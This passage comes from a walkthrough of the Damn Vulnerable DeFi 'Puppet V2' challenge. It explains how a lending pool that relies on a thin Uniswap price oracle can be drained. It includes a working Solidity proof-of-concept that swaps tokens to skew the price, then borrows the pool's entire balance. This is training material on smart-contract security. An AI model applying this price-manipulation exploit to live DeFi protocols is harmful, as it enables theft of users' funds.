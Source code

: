 
## 9.PUPPET V2

**Objective**

_from `_isSolved()` in test_

1. _All tokens of the lending pool were deposited into the recovery account_

**Attack Analysis**

- The implementation is still vulnerable because the lending pool gets the price from a Uniswap pair and it can still be manipulated by an attacker. Plus, balances are low, which facilitates the manipulation.
- An attacker could swap DVT tokens in the Uniswap Pool and influence the prices of the Lending Pool. This being particular easy in this case because of the low amount of assets in the pool.
- Then, the attacker could borrow assets in the lending pool at an unexpected price and drain its liquidity.

**POC**

See [test/puppet-v2/PuppetV2.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/puppet-v2/PuppetV2.t.sol)

```solidity
function test_puppetV2() public checkSolvedByPlayer {
    address[] memory path = new address[](2);
    path[0] = address(token);
    path[1] = address(weth);

    require(token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE), "Token approve failed");
    uniswapV2Router.swapExactTokensForTokens(
        PLAYER_INITIAL_TOKEN_BALANCE,
        1,
        path,
        address(player),
        block.timestamp
    );
    weth.deposit{value: address(player).balance}();
    require(weth.approve(address(lendingPool), weth.balanceOf(address(player))), "Weth approve failed");

    lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE);
    token.transfer(recovery, token.balanceOf(address(player)));
}

```

Run `forge test --mp test/puppet-v2/PuppetV2.t.sol --isolate` to validate test

---

## 10.FREE RIDER
